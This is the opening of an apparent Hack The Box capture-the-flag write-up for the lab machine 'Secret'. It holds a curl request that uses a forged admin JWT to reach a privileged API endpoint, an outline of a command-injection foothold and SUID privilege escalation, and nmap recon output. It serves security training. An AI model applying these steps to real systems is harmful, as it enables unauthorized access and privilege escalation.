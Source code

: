 ```bash
curl -s 'http://10.10.11.120/api/priv' -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq .
{
  "creds": {
    "role": "admin",
    "username": "theadmin",
    "desc": "welcome back admin"
  }
}
```

Secret

To get a foothold on Secret, I’ll start with source code analysis in a Git repository to identify how authentication works and find the JWT signing secret. With that secret, I’ll get access to the admin functions, one of which is vulnerable to command injection, and use this to get a shell. To get to root, I’ll abuse a SUID file in two different ways. The first is to get read access to files using the open file descriptors. The alternative path is to crash the program and read the content from the crashdump.
Box Stats
Name: 	Secret Secret
Release Date: 	30 Oct 2021
Retire Date: 	26 Mar 2022
OS: 	Linux Linux
Base Points: 	Easy [20]
Rated Difficulty: 	Rated difficulty for Secret
Radar Graph: 	Radar chart for Secret
First Blood User 	07 mins, 30 seconds szymex73
First Blood Root 	26 mins, 39 seconds szymex73
Creator: 	
Recon
nmap

nmap finds three open TCP ports, SSH (22), HTTP over NGINX (80), and HTTP Node (3000):

oxdf@hacky$ nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.120
Starting Nmap 7.80 ( https://nmap.org ) at 2021-10-26 11:39 EDT
Nmap scan report for 10.10.11.120
Host is up (0.11s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 7.83 seconds

oxdf@hacky$ nmap -p 22,80,3000 -sCV -oA scans/nmap-tcpscripts 10.10.11.120
Starting Nmap 7.80 ( https://nmap.org ) at 2021-10-26 11:42 EDT
Nmap scan report for 10.10.11.120
Host is up (0.11s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: DUMB Docs
3000/tcp open  http    Node.js (Express middleware)
|_http-title: DUMB Docs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
